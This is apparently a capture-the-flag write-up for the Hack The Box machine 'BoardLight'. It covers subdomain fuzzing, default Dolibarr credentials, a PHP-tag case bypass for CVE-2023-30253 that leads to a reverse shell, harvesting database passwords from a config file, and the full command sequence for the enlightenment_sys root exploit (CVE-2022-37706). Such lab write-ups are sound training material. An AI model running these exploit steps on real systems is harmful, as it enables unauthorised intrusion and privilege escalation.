









# Overview

- Machine: BoardLight
- OS: Linux
- Difficulty: Easy

# Reconnaissance

## Port Scan

The first thing I did was run _nmap_ to discover the **open ports** on the target machine:
```bash
nmap -p- -sV -sC -oA nmap/nmap -v 10.10.11.11
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
[...]
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
```
 
## Virtual host

Accessing the page running on port 80, we see that probably is a **static website** as demonstrated on _Figure 1_. At the bottom of the page, I see the DNS **board.htb**, as shown in _Figure 2_.


> _Figure 1_: **Homepage of '10.10.11.11'.**


> _Figure 2_: **Discovery the DNS 'board.htb'.**

:::note
As always, I added 'board.htb' to the _/etc/hosts_ file.
:::

Accessing the the page '_board.htb_' returns an identical static site, so I started **brute forcing** with _ffuf_ to see if it has any **virtual host** with the following command:
```bash
ffuf -w /seclists/Discovery/DNS/subdomains-top1million-5000.txt -u 'http://10.10.11.11/' -H 'Host: FUZZ.board.htb' -fs 15949
[...]
crm                     [Status: 200, Size: 6360, Words: 397, Lines: 150, Duration: 192ms]
```
:::note
I had to use the option '_-fs 15949_' to filter results by size because if the Vhost is not valid, the server will just return the static website.
:::

It was discovered that the VHOST '_crm.board.htb_' returns a different page, and accesing it, we can see the **_Dolibarr_ login page** as shown in _Figure 3_.


> _Figure 3_: **Dolibarr version '17.0.0'.**

Searching on google we discover that the **default credentials** for Dolibarr are _admin:admin_. Trying that, and we are in! But once inside, it seems like we have limited permissions, and most of the features give us access denied, as see in _Figure 4_. 


> _Figure 4_: **Dolibarr admin with limited permissions.**

# Exploitation

Searching for this Dolibarr version, we find that it is vulnerable to [CVE-2023-30253](https://www.swascan.com/security-advisory-dolibarr-17-0-0/). The CVE allows **executing PHP code** by bypassing an application restriction.

### How the vulnerablility works

1. First, if we don't have one, we need to create a website and a new page. 
2. Now with the page created, we click the "Edit HTML Source".
3. 1. On this page, if we try to insert PHP code with the tag **<?php ...?>**, it give us the following permission error. 

> _Figure 5_: **Permission to write PHP code denied.**
3. 2. But if we change the PHP tag to **<?pHP ?>**, it saves the page and executes the PHP code. 

> _Figure 6_: **Successfully saved the page and executed the PHP code.**
4. Now, we just need to send a reverse shell. I modified the [PHP reverse shell from PentestMonkey](https://github.com/pentestmonkey/php-reverse-shell) to working with this CVE and waited for my connetion back.

# Privilege escalation

When I got the shell as **www-data user**, I upgraded it to a **TTY** one with _script_ and _stty_:
```bash
script -c /bin/bash -q /dev/null
<CTRL>z
stty raw -echo;fg 
```
## User flag

I got a shell as _'www-data'_, and while enumerating the open ports with `ss -ltnp`, I discovery that port **3306**(MySql) is open, so I immediately started looking for its **password** in the **Dolibarr configurate** files.

Going to dolibarr folder, I used the following _grep_ command to find out where the configurates are: </br>
`grep -ri 'db_name' | grep -v 'jquery'`


> _Figure 7_: **Return of _grep_ command.**

It returned a lot of files, but the one that caught my attention was `/htdocs/conf/conf.php`.Opening the file and scrolling up, we find the **credentials** of the database, as demostrated at Figure 8.


> _Figure 8_: **Database credentials.**
:::warning
Remember to keep it simple. The first time on the machine, I spend some time going down the rabbit hole of getting the hashes from the database and trying to crack them. Remember to go for easy wins first.
:::

Now with that password, we can just run `su - larrisa` and paste the password we just got, and we will have the user flag in `/home/larrisa/user.txt`. 

## Root flag

After manually enumerating for some time, I found some **SUID binaries** with the following _find_ command:</br>
`find / -perm -u=s -type f 2>/dev/null`

> _Figure 9_: **Return of the _find_ command**

Researching this binary, I found out that the version of **enlightenment** installed is vulnerable to **Privilege Escalation** with _CVE-2022-37706_.

### Steps to reproduce
1. Create two directories that confuse the logic of the binary:</br>
`mkdir -p /tmp/net`</br>
`mkdir -p "/dev/../tmp/;/tmp/exploit`
2. Create the file that the binary will execute on a **system()** call:
</br>`echo '/bin/sh' > /tmp/exploit`</br>
`chmod a+x /tmp/exploit`
3. Run the following command to get a root shell:
`/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net`

:::note
Can check more details about the vulnerability on the following GitHub.
::github{repo="MaherAzzouzi/CVE-2022-37706-LPE-exploit"}
:::

And with that we can get the **root flag** in `/root/root.txt`.

:::important[YouTube]
If you got lost at some point, I have a full Walkthough on YouTube:
<iframe width="560" height="315" src="https://www.youtube.com/embed/GxeAiKjv2A4?si=1v_dYdZluasosMmz" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>
:::
